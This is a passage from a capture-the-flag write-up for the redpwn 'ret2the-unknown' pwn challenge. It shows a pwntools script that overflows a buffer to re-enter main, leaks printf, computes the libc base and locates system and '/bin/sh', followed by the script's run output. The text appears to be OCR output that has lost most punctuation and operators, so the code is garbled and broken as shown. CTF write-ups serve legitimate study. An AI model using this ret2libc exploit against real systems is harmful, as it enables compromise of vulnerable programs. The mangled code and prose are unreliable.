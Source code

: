 The main function was successfully called again  Now the printf function address can be retrieved to find the base libc address for the second wave of the exploit 

     Finding Base Libc Address

With the knowledge of where the printf function is in memory  the base address of libc can be calculated  and therefore the address of system   and location of the  bin sh string can be determined by adding their offsets to the base libc address 

   highlight python   
from pwn import    

REMOTE   False  
  
if REMOTE   
   p   remote  mc ax  31568   
else    p   process    ret2the unknown    
  
rip offset   40  
main   0x0000000000401186  
  
  Wave 1  
  
   Repeat main function  
payload   b A  40   p64 main   
p recvuntil b safely     
p sendline payload   
  
   Retrieve printf address  
p recvuntil b there      
printf address   p recvuntil b luck    split b n   0  decode    
  
  Wave 2  
  
   Get base libc address  
libc   ELF  libc 2 28 so    checksec   False   
libc address   int printf address 16    libc symbols  printf    
  
   Get system and bin sh addresses ready  
system   libc symbols  system    
bin sh   next libc search b  bin sh     
  
log success f libc base found at   hex libc address      
log info f system at   hex system      
log info f  bin sh at   hex bin sh      
p interactive  
   endhighlight     

Observe the following addresses denoted in red when executing poc py 

   highlight bash   
   0xd4y Writeup     business ctf redpwn pwn ret2the unknown   
      python3 poc py  
    Starting local process    ret2the unknown   pid 7483  
    libc base found at  0x7fe5b91a7790    system at  0x7fe5b91ec150     bin sh at  0x7fe5b9328ca9    Switching to interactive modethat board meeting was a  smashing  success  rob loved the challenge in fact  he loved it so much he sponsored me a business trip to this place called  libc    where is this place  can you help me get there safely   
  test  
phew  good to know  shoot  i forgot   
rob said i d need this to get there  7fe5b91ffcf0  
good luck   
    Got EOF while reading in interactive
   endhighlight     
